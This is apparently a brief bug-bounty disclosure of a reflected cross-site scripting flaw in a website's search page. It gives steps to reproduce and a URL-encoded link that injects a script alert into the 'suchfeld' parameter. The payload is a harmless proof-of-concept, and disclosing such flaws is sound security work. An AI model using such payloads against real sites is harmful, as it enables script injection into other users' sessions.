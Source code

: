 *XSS with GET URL parameter* 
Steps to reproduce:
2. Go to https://www.domain/
3. In the search enter: "<script>alert(`OPENBUGBOUNTY`)</script>
4. Submit the search and XSS alert will pop up.

Alternatively visiting this URL will trigger the XSS.
https://www.domain/inc.search_neu.php?suchfeld=%22%3Cscript%3Ealert(%60OPENBUGBOUNTY%60)%3C%2Fscript%3E